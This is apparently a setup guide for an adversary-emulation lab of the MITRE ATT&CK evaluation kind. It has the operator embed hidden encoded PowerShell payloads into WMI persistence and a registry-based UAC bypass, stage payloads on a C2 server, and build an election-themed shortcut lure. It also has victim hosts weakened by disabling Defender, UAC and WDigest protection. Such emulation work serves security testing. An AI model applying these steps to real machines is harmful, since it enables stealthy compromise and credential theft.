### Generate an encoded PowerShell oneliner payload, then copy:
1. Just the encoded portion (ex: `WwBTAH...=`) into `$enc_ps variable` (4th line from bottom) in `schemas.ps1`
    *  ex: `$enc_ps = "WwBTAH...=="`
2. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `CommandLineTemplate` variable (under `$ConsumerArgs` in 2nd paragraph) in `stepFifteen_wmi.ps1`
    *  ex: `CommandLineTemplate="powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`
3. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `-Value` variable (2nd line) in `stepFourteen_bypassUAC.ps1`
    *  ex: `New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value "powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`

### Generate DLL payload, then on a separate Windows host:
1. [CMD] > `certutil -encode [file].dll blob`
2. [CMD] > `powershell`
3. [PS] > `$blob = (Get-Content .\blob) -join ""; $blob > .\blob`
4. Open `blob` file in text editor
5. Delete new line at end of file and copy all (CTRL-A, CTRL-C)
6. Paste value (ex: `-----BEGIN CERTIFICATE-----...-----END CERTIFICATE-----`) into `$bin` variable (6th line) in `schemas.ps1`

### Copy payloads to C2 server (wherever is appropriate for your C2 framework to have access to these files)

### Update `stepFourteen_credDump.ps1` -- directions are in file

### Prepare initial access payloads:
1.  Login as non-domain admin user
2.  Copy over the following files onto the Desktop of the initial victim:
    1. `2016_United_States_presidential_election_-_Wikipedia.html`
    2. `make_lnk.ps1`
    3. `schemas.ps1`
2.  Copy over `MITRE-ATTACK-EVALS.HTML` into the Documents folder of the initial victim
3.  Execute `make_lnk.ps1` (Right click > Run with PowerShell), this will generate `37486-the-shocking-truth-about-election-rigging-in-america.rtf.lnk`
4.  Drag `make_lnk.ps1` and `schemas.ps1` to Recycle Bin and empty the Recycle Bin (Right click > Empty Recycle Bin)

## Victim Setup

### For each of the 3 victims:
1. Login in as domain admin user
2. Ensure Windows Defender is off or configured to alert-only (https://support.microsoft.com/en-us/help/4027187/windows-10-turn-off-antivirus-protection-windows-security)
3. Change network type to Domain (https://www.itechtics.com/change-network-type-windows-10/#2-_Setting_network_type_using_Windows_Registry)
4. Set UAC to never notify (https://articulate.com/support/article/how-to-turn-user-account-control-on-or-off-in-windows-10)
5. Enable WinRM (https://support.microsoft.com/en-us/help/555966)
6. Enable UseLogonCredential in the WDigest Registry settings (https://support.microsoft.com/help/2871997/microsoft-security-advisory-update-to-improve-credentials-protection-a)
